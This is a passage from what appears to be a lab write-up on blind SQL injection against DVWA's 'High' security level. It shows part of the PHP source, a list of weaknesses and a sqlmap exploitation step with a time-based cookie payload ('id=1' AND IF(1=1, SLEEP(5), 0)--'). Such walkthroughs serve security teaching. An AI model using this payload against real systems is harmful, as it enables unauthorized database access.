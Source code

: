 ```php
    } else {
        if( rand( 0, 5 ) == 3 ) {
            sleep( rand( 2, 4 ) );
        }
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );
        $html .= '<pre>User ID is MISSING from the database.</pre>';
    }
}
?>
```

## 🛡️ HIGH Security Level

### 📌 Overview
The application sources the ID from a cookie and includes a random sleep to thwart timing-based blind SQLi. This is a strong defense, but the SQL query is still constructed unsafely using raw cookie input.

---

### 🔍 Vulnerabilities Identified

```markdown
🔒 Vulnerability | ❌ Problem Description  
---|---  
Session-Based Injection | Cookie input is still attacker-controlled  
Randomized Timing | Sleep obfuscation can be bypassed by repetition  
Dynamic Query | Input still directly included in SQL  
```

---

### 2️⃣ Exploitation Phase

```markdown
🔨 Tool: sqlmap

🔧 Setup: Modify `id` cookie with logic payload

🔁 Payload:
Cookie: id=1' AND IF(1=1, SLEEP(5), 0)--

🎯 Success Indicator:
- sqlmap detects and bypasses randomized delay through retries

📸 Screenshot: sqlmap dump and timing result
```

---

### 4️⃣ Risk & Real-World Impact
